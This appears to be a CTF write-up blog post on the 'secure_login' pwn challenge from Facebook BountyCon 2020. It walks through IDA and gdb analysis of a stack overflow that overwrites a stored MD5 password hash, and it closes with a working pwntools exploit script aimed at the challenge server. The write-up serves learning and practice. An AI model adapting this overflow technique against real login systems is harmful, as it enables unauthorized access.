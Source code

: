 ```yaml
---
layout: post
title:  "Secure login facebook bountycon 2020"
date:   2020-01-26 07:59:00
tags: ctf-writeup pwn
description: this article explains about secure-login from bountycon 2020.
categories: ctf
---
```


this is the only one pwn challenge on facebook bountycon 2020 , here is how i solve it.

the description :

    We developed a super secure login system, but unfortunately we aren't
    familiar with those newfangled memory-safe languages.


and we are given 64-bit ELF binary

    ./secure_login: ELF 64-bit LSB shared object,
    x86-64, version 1 (SYSV), dynamically linked,
    interpreter /lib64/l, BuildID[sha1]=e04815d2376518cc8b4295463f91479b57b8212a,
    for GNU/Linux 3.2.0, not stripped

after open it on ida , i found some function

<ul>
  <li>0x0000000000001269  wait_for_zombie</li>
  <li>0x0000000000001291  check_passwd</li>
  <li>0x0000000000001414  take_connections_forever</li>
  <li>0x00000000000014dc  main</li>
</ul>

let's see ```check_passwd()``` function

<img src="/images/secure-login/2020-01-26-204900_541x422_scrot.png" />

looks like our input will compare with v17 , i assume v17 and v18 is one variable
since this is md5

this is ```take_connections_forever()``` function

<img src="/images/secure-login/2020-01-26-195358_499x425_scrot.png"/>

look like we have to follow child process to debug ```check_passwd()```, since there's
```fork() ``` on

{% highlight c %}
if ( !fork() )
{
    close(a1);
    check_passwd(v2);
}
{% endhighlight %}
this is can be done by using command ```set follow-fork-mode child``` on gdb
and set breakpoint on ```check_passwd``` now lets try to run it

<img src="/images/secure-login/2020-01-26-200237_1366x768_scrot.png" />

the binary will made a connection on port 10000 , so i connect to this port using
```nc``` command, now lets set another breakpoint on <br/>
```0x00005555555553af <+286>:	call   0x555555555100 <memcmp@plt>```

and try to input ```AAAAAAAA```

<img src="/images/secure-login/2020-01-26-201111_313x87_scrot.png"/>

value on ```0x00007fffffffdda0``` is md5 from our input and ```0x00007fffffffdd90```
from the binary it self , lets see rsp

<img src="/images/secure-login/2020-01-26-201658_359x182_scrot.png" />

```
0x7fffffffdd10:	0x4141414141414141	0x000000000000000a <-- our input
0x7fffffffdd20:	0x0000000000000000	0x0000000000000000
0x7fffffffdd30:	0x0000000000000000	0x0000000000000000
0x7fffffffdd40:	0x0000000000000000	0x0000000000000000
0x7fffffffdd50:	0x0000000000000000	0x0000000000000000
0x7fffffffdd60:	0x0000000000000000	0x0000000000000000
0x7fffffffdd70:	0x0000000000000000	0x0000000000000000
0x7fffffffdd80:	0x0000000000000000	0x0000000000000000
0x7fffffffdd90:	0xa99dd1dbed586201	0xc6bbb0b969f29e4d <-- the md5 password
0x7fffffffdda0:	0xf5f48e17c7c26f5c	0x71750fc6d47e8ca8 <-- this is md5 from our input
```

let's input ```A*152```

<img src="/images/secure-login/2020-01-26-202640_682x750_scrot.png" />

look like we can control ```rsi``` and ```rcx``` , let's see the stack

<img src="/images/secure-login/2020-01-26-202935_353x180_scrot.png" />

now we can try to overwrite ```0x7fffffffdd90``` so the value will have same value
with our input , this is my exploit to solve this challenge

{% highlight python %}
from pwn import *

def main():
    # r = remote("127.0.0.1",10000)
    r  = remote("ec2-3-11-37-224.eu-west-2.compute.amazonaws.com",10000)
    # reached
    p = "A" * (152 - 32)
    p += "A" * 8
    p += p64(0x2016e548d3b035af)
    p += p64(0x0c5b389d3383e136)

    r.sendlineafter(":",p)
    r.interactive()

if __name__ == '__main__':
    main()

{% endhighlight %}

<img src="/images/secure-login/2020-01-26-203415_557x102_scrot.png" />
